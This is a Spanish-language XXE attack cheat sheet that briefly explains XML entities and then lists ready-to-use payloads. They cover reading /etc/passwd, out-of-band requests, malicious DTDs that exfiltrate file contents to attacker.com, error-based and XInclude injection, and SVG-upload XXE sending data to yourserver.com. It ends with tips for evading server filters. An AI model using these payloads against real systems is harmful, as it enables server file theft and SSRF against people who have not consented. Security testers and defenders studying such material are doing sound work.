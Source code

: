 ```yaml
---

### 💥 **XXE (XML External Entity) Attack Cheat Sheet** 💥

---
```


#### **¿Qué es XXE?**  
El ataque **XXE (XML External Entity)** aprovecha vulnerabilidades en el procesamiento de entidades XML en aplicaciones web.  
Permite al atacante:  
- **Leer archivos locales.**  
- **Realizar solicitudes HTTP desde el servidor.**  
- **Realizar ataques SSRF, DoS o RCE.**  

---

## **Tipos de Entidades en XML**

| Tipo                   | Descripción                                                                     |
| ---------------------- | ------------------------------------------------------------------------------- |
| Genéricas              | Representan cualquier tipo de información dentro del XML.                       |
| Externas (XXE)         | Referencian recursos externos, como archivos locales o URLs.                    |
| Predefinidas           | Entidades comunes usadas en XML (&lt;, &gt;, &amp;).                            |
| Entidades Paramétricas | Utilizan el símbolo `%` y se declaran en el **DTD (Document Type Definition)**. |
|                        |                                                                                 |

---

## **Ejemplo de Estructura XML**
```xml
<?xml version="1.0" encoding="UTF-8"?> <!-- Declaración XML -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "mi entidad">]> <!-- DTD (Document Type Definition) -->

<root>
    <name>fran</name>
    <tel>5454545as</tel>
    <email>fran@fran.com</email>
    <password>fran123</password>
</root>
```

---

## **Normal XXE (Local File Disclosure)**

### **Payloads:**
```xml
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "file:///etc/passwd"> ]>
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
```

---

## **Out Of Band XXE (OOB)**
- Estas inyecciones son ciegas (blind), donde el servidor realiza solicitudes HTTP hacia un servidor externo.

### **Payloads:**
```xml
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "http://192.168.64.128/testXXE"> ]>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://192.168.64.128/malicious.dtd"> %xxe; ]>
```

---

## **Malicious DTD Files**

### **Malicious DTD 1 - Base64 Encoding:**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%stack;
%exfil;
```

### **Malicious DTD 2 - Direct File Read:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%stack;
```

### **Malicious DTD 3 - Error-Based XXE:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; error SYSTEM 'file://idontexist/%file;'>">
```

---

## **XInclude Injection**

### **Payloads:**
**XInclude Local File:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="file:///etc/passwd" parse="text"/>
</foo>
```

**XInclude OOB:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="http://yourserver.com/?data=file:///etc/passwd" parse="text"/>
</foo>
```

---

## **XXE via Image File Upload**

### **Normal XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY file SYSTEM "file:///etc/hostname">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <text x="0" y="16" font-size="16">&file;</text>
</svg>
```

### **OOB XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % send SYSTEM "http://yourserver.com/?data=%file;">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <text x="0" y="16" font-size="16">&send;</text>
</svg>
```

---

## **XXE by Repurposing Local DTD**

### **Payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % myFile SYSTEM "file:///usr/share/xml/catalog"> %myFile; ]>
```

---

## **Consejos Útiles:**
- **Siempre invoca el nombre de la entidad dentro del XML para ejecutar el payload.**  
- **Si el ataque falla, intenta eliminar el `%` o probar variantes de codificación.**  
- **Si el servidor bloquea ciertas entidades, intenta ofuscar los caracteres.**  

---
